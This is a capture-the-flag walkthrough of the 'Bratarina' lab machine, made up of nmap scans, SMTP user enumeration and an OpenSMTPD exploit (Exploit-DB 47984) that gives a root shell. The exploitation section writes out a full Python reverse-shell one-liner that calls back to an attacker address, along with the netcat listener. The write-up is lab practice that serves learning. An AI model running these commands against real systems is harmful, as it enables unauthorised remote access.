 <h2>Recon</h2>

<h3>PortScanning</h3>

>command: sudo nmap -A 192.168.82.71 -p- -T4 -v

```
Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-01 16:13 WAT
NSE: Loaded 155 scripts for scanning.
NSE: Script Pre-scanning.
Initiating NSE at 16:13
Completed NSE at 16:13, 0.00s elapsed
Initiating NSE at 16:13
Completed NSE at 16:13, 0.00s elapsed
Initiating NSE at 16:13
Completed NSE at 16:13, 0.00s elapsed
Initiating Ping Scan at 16:13
Scanning 192.168.82.71 [4 ports]
Completed Ping Scan at 16:13, 0.29s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 16:13
Completed Parallel DNS resolution of 1 host. at 16:13, 0.03s elapsed
Initiating SYN Stealth Scan at 16:13
Scanning 192.168.82.71 [65535 ports]
Discovered open port 445/tcp on 192.168.82.71
Discovered open port 25/tcp on 192.168.82.71
Discovered open port 80/tcp on 192.168.82.71
Discovered open port 22/tcp on 192.168.82.71
SYN Stealth Scan Timing: About 6.04% done; ETC: 16:22 (0:08:02 remaining)
SYN Stealth Scan Timing: About 19.79% done; ETC: 16:18 (0:04:07 remaining)
SYN Stealth Scan Timing: About 34.38% done; ETC: 16:17 (0:02:54 remaining)
SYN Stealth Scan Timing: About 46.32% done; ETC: 16:17 (0:02:20 remaining)
SYN Stealth Scan Timing: About 57.98% done; ETC: 16:17 (0:01:49 remaining)
SYN Stealth Scan Timing: About 71.94% done; ETC: 16:17 (0:01:11 remaining)
Completed SYN Stealth Scan at 16:17, 242.39s elapsed (65535 total ports)
Initiating Service scan at 16:17
Scanning 4 services on 192.168.82.71
Completed Service scan at 16:17, 6.56s elapsed (4 services on 1 host)
Initiating OS detection (try #1) against 192.168.82.71
Retrying OS detection (try #2) against 192.168.82.71
Initiating Traceroute at 16:17
Completed Traceroute at 16:17, 0.27s elapsed
Initiating Parallel DNS resolution of 2 hosts. at 16:17
Completed Parallel DNS resolution of 2 hosts. at 16:17, 0.06s elapsed
NSE: Script scanning 192.168.82.71.
Initiating NSE at 16:17
Completed NSE at 16:18, 40.22s elapsed
Initiating NSE at 16:18
Completed NSE at 16:18, 1.68s elapsed
Initiating NSE at 16:18
Completed NSE at 16:18, 0.00s elapsed
Nmap scan report for 192.168.82.71
Host is up (0.22s latency).
Not shown: 65530 filtered tcp ports (no-response)
PORT    STATE  SERVICE     VERSION
22/tcp  open   ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dbdd2cea2f85c589bcfce9a338f0d750 (RSA)
|   256 e3b765c2a78e4529bb62ec301aebed6d (ECDSA)
|_  256 d55b795bce48d85746db594fcd455def (ED25519)
25/tcp  open   smtp        OpenSMTPD
| smtp-commands: bratarina Hello nmap.scanme.org [192.168.49.82], pleased to meet you, 8BITMIME, ENHANCEDSTATUSCODES, SIZE 36700160, DSN, HELP
|_ 2.0.0 This is OpenSMTPD 2.0.0 To report bugs in the implementation, please contact bugs@openbsd.org 2.0.0 with full details 2.0.0 End of HELP info
53/tcp  closed domain
80/tcp  open   http        nginx 1.14.0 (Ubuntu)
|_http-title:         Page not found - FlaskBB        
|_http-server-header: nginx/1.14.0 (Ubuntu)
445/tcp open   netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: COFFEECORP)
Aggressive OS guesses: Linux 2.6.32 (88%), Linux 2.6.39 (88%), Linux 3.10 - 3.12 (88%), Linux 3.4 (88%), Linux 3.5 (88%), Linux 4.4 (88%), Synology DiskStation Manager 5.1 (88%), Linux 2.6.35 (87%), Linux 3.10 (87%), Linux 2.6.32 or 3.10 (87%)
No exact OS matches for host (test conditions non-ideal).
Uptime guess: 26.225 days (since Fri Feb  3 10:53:46 2023)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=263 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: Host: bratarina; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 1h40m01s, deviation: 2h53m14s, median: 0s
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: bratarina
|   NetBIOS computer name: BRATARINA\x00
|   Domain name: \x00
|   FQDN: bratarina
|_  System time: 2023-03-01T10:17:45-05:00
| smb2-time: 
|   date: 2023-03-01T15:17:43
|_  start_date: N/A
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required

TRACEROUTE (using port 53/tcp)
HOP RTT       ADDRESS
1   261.97 ms 192.168.49.1
2   262.34 ms 192.168.82.71

NSE: Script Post-scanning.
Initiating NSE at 16:18
Completed NSE at 16:18, 0.00s elapsed
Initiating NSE at 16:18
Completed NSE at 16:18, 0.00s elapsed
Initiating NSE at 16:18
Completed NSE at 16:18, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 297.78 seconds
           Raw packets sent: 131317 (5.782MB) | Rcvd: 206 (9.112KB)

```
From the above scan we have 3 ports opened, port 22 which runs ssh, port 25 which runs smtp, port 80 which runs http and port 445 which runs netbios-ssn. Our enumeration today will be focused more on port 25, port 80 and port 445.


<h2>Enumeration Port 25</h2>

Lets try to check if there is an exploit for this smtp version

>command:nmap -p 25 --script smtp-vuln*.nse 192.168.91.71

```
┌──(bl4ck4non㉿bl4ck4non)-[~/Downloads/PG/pg_practice/Bratarina]
└─$ nmap -p 25 --script smtp-vuln*.nse 192.168.91.71                                                     
Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-01 17:02 WAT
Nmap scan report for 192.168.91.71
Host is up (0.21s latency).

PORT   STATE SERVICE
25/tcp open  smtp
| smtp-vuln-cve2010-4344: 
|_  The SMTP server is not Exim: NOT VULNERABLE

Nmap done: 1 IP address (1 host up) scanned in 1.38 seconds

```
Okay, it is not vulnerable to the available exploit hehe. Lets try to see if we can get usernames 

>command:smtp-user-enum -M VRFY -U /usr/share/wordlists/metasploit/unix_users.txt -t 192.168.82.71 -p 25

```
──(bl4ck4non㉿bl4ck4non)-[~]
└─$ smtp-user-enum -M VRFY -U /usr/share/wordlists/metasploit/unix_users.txt -t 192.168.82.71 -p 25
Starting smtp-user-enum v1.2 ( http://pentestmonkey.net/tools/smtp-user-enum )

 ----------------------------------------------------------
|                   Scan Information                       |
 ----------------------------------------------------------

Mode ..................... VRFY
Worker Processes ......... 5
Usernames file ........... /usr/share/wordlists/metasploit/unix_users.txt
Target count ............. 1
Username count ........... 168
Target TCP port .......... 25
Query timeout ............ 5 secs
Target domain ............ 

######## Scan started at Wed Mar  1 16:27:50 2023 #########
######## Scan completed at Wed Mar  1 16:28:16 2023 #########
0 results.

168 queries in 26 seconds (6.5 queries / sec)

```
oops, there's nothing hehe

Then I went back to my scan and found something

![image](https://user-images.githubusercontent.com/67879936/222197594-dfa51204-9db1-4d60-a103-121ee3786a6a.png)

Checking for the exploit of that version online, I found this

>link to exploit:https://www.exploit-db.com/exploits/47984



<h3>Exploitation Port 25</h3>

Download that exploit to your machine and lets try to run it
 
```
┌──(bl4ck4non㉿bl4ck4non)-[~/Downloads/PG/pg_practice/Bratarina]
└─$ python 47984.py                                                                              
Usage 47984.py <target ip> <target port> <command>
E.g. 47984.py 127.0.0.1 25 'touch /tmp/x'

```
Alright, so lets try to run it using the format we were given

```
┌──(bl4ck4non㉿bl4ck4non)-[~/Downloads/PG/pg_practice/Bratarina]
└─$ python 47984.py 192.168.91.71 25 whoami              
[*] OpenSMTPD detected
[*] Connected, sending payload
[*] Payload sent
[*] Done
```
Alright, our payload got sent successfully hehe

Now, lets try to execute our reverse shell so we can get a shell back on our machine.

For this we'll be using 2 different terminals

>command terinal 1:python 47984.py 192.168.91.71 25 'python -c "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"192.168.49.91\",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn(\"/bin/bash\")"'

>command terminal 2:rlwrap nc -lvnp 80

Ensure you change the $IP to your own IP address

![image](https://user-images.githubusercontent.com/67879936/222204177-72c4a2d7-483a-40a3-a460-e8ad1e3e40bb.png)

![image](https://user-images.githubusercontent.com/67879936/222204274-fe5792e8-ff93-440f-99ad-24d3d2c504c9.png)

Boom!!! We got a shell as root. This means we don't need to go through the stress of checking other ports xD

That will be all for today






















